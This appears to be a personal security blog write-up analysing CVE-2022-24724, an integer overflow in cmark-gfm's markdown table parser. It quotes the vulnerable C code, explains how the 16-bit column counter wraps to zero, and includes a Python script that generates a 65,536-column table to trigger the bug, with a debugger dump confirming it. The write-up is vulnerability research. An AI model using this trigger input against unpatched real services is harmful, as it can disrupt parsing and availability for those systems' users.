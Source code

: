 ```yaml
---
layout: post
title: Anhphan.md?
subtitle: Small talk about CVE-2022-24724 - recent markdown table parsing bug
tags: [pwn, writeup]
---
```


Note: I'm new in researching stuff so this post might not be so "accurate" 💀

```
| Còng | số  | 8   | siết | tay   | anh  |    |
|------|-----|-----|------|-------|------|----|
| Giam | giữ | đời | anh  | trong | ngục | tù |
```

Yeah, that is a markdown table. Just a few days ago there is a [integer overflow bug](https://github.com/github/cmark-gfm/security/advisories/GHSA-mc3g-88wq-6f4x) in cmark-gfm's table row parsing mechanism. So i decided to look around to see if i could be able to find something interesting :p

table.c:
```C
typedef struct {
  uint16_t n_columns; // [1]
  int paragraph_offset;
  cmark_llist *cells;
} table_row;


...


static table_row *row_from_string(cmark_syntax_extension *self,
                                  cmark_parser *parser, unsigned char *string,
                                  int len) {
  // Parses a single table row. It has the following form:
  // `delim? table_cell (delim table_cell)* delim? newline`
  // Note that cells are allowed to be empty.
  //
  // From the GitHub-flavored Markdown specification:
  //
  // > Each row consists of cells containing arbitrary text, in which inlines
  // > are parsed, separated by pipes (|). A leading and trailing pipe is also
  // > recommended for clarity of reading, and if there’s otherwise parsing
  // > ambiguity.

  table_row *row = NULL;
  bufsize_t cell_matched = 1, pipe_matched = 1, offset;
  int expect_more_cells = 1;
  int row_end_offset = 0;

  row = (table_row *)parser->mem->calloc(1, sizeof(table_row));
  row->n_columns = 0; // [2]
  row->cells = NULL;

  // Scan past the (optional) leading pipe.
  offset = scan_table_cell_end(string, len, 0);

  // Parse the cells of the row. Stop if we reach the end of the input, or if we
  // cannot detect any more cells.
  while (offset < len && expect_more_cells) {


...


      row->n_columns += 1; // [3]
      row->cells = cmark_llist_append(parser->mem, row->cells, cell);
    }


...


  if (offset != len || row->n_columns == 0) { // [4]
    free_table_row(parser->mem, row);
    row = NULL;
  }

  return row;
}
```

Functions analysis:

free_table_row actually calls `cmark_llist_free_full`:

Look at [1], you can see that the n_column is uint16_t type, which ranges from 0x0 to 0xffff.

[2] Before parsing a row the program reset n_column to 0

[3] Every "cell" passing by the n_column value will be increased by 1

[4] This checks if the parsing has been processed correctly, if:

- some unexpected behavior (`offset != len`, everytime the program bypass a "\|" character the `offset` will be increased, the `len` is the length of a line of the table) happens

- the number of columns is valid (`row->n_columns == 0`)

If 2 conditions above are not satisfied, then the program will abort table parsing process (by return a NULL "table_row" pointer).

Functions analysis:

`free_table_row` actually calls `cmark_llist_free_full`:

```C
void cmark_llist_free_full(cmark_mem *mem, cmark_llist *head, cmark_free_func free_func) {
  cmark_llist *tmp, *prev;

  for (tmp = head; tmp;) {
    if (free_func)
      free_func(mem, tmp->data);

    prev = tmp;
    tmp = tmp->next;
    mem->free(prev);
  }
}


...


static void free_table_cell(cmark_mem *mem, void *data) {
  node_cell *cell = (node_cell *)data;
  cmark_strbuf_free((cmark_strbuf *)cell->buf);
  mem->free(cell->buf);
  mem->free(cell);
}


...


cmark_llist_free_full(mem, row->cells, (cmark_free_func)free_table_cell);
```

This is simple just free all the cell-pointers on a row. Not thing particular to exploit here.

To make sure i analysed the bug correctly i wrote a small script to generate buggy markdown:
```python
table = ''

for i in range(0x10000):
    table+='|   '
table+='|\n'

for i in range(0x10000):
    table+='|---'
table+='|\n'

print(table)
```

The upper bound of uint16_t data type is 0xffff and 0x10000 row will trigger the integer overflow bug. I tested it and right.
```
*RAX  0x1
*RBX  0x0
*RCX  0x40001
*RDX  0x0
*RDI  0x7ffff7b03d11 ◂— 0xa /* '\n' */
 RSI  0x7ffff7ac3d10 ◂— 0x2020207c2020207c ('|   |   ')
*R8   0x1
*R9   0x0
*R10  0xffffffffffffffff
*R11  0x7ffff6bf95d8 —▸ 0x7ffff7fba460 (CMARK_ARENA_MEM_ALLOCATOR) —▸ 0x7ffff7fa0680 (arena_calloc) ◂— endbr64 
*R12  0x7ffff7ac3d10 ◂— 0x2020207c2020207c ('|   |   ')
*R13  0x40002
*R14  0x55555555cb68 ◂— 0x0
*R15  0x40001
*RBP  0x40002
*RSP  0x7fffffffcd30 ◂— 0x7fff00000001
*RIP  0x7ffff7fbf850 (row_from_string.isra+480) ◂— cmp    r13d, ebp
─────────────────────────────────────────────────────────[DISASM]────────────────────────────────────────────────────────
 ► 0x7ffff7fbf850 <row_from_string.isra+480>    cmp    r13d, ebp
   0x7ffff7fbf853 <row_from_string.isra+483>    jne    row_from_string.isra+512                <row_from_string.isra+512>
 
   0x7ffff7fbf855 <row_from_string.isra+485>    cmp    word ptr [r14], 0
   0x7ffff7fbf85a <row_from_string.isra+490>    je     row_from_string.isra+512                <row_from_string.isra+512>
    ↓
   0x7ffff7fbf870 <row_from_string.isra+512>    mov    rax, qword ptr [rsp + 8]
   0x7ffff7fbf875 <row_from_string.isra+517>    mov    rsi, qword ptr [r14 + 8]
   0x7ffff7fbf879 <row_from_string.isra+521>    lea    rdx, [rip - 0x890]            <0x7ffff7fbeff0>
   0x7ffff7fbf880 <row_from_string.isra+528>    mov    rbx, qword ptr [rax]
   0x7ffff7fbf883 <row_from_string.isra+531>    mov    rdi, rbx
   0x7ffff7fbf886 <row_from_string.isra+534>    call   cmark_llist_free_full@plt                <cmark_llist_free_full@plt>
 
   0x7ffff7fbf88b <row_from_string.isra+539>    mov    rdi, r14
```

In which [r14] is row->n_columns, you can see `R14  0x55555555cb68 ◂— 0x0`. That's where the bug was triggered, you could test it on your own and see that the table parsing is no longer work, but i don't think this bug capable of performing RCE in such small program (own opinion), it might be able to trigger RCE if implemented seperately on larger system.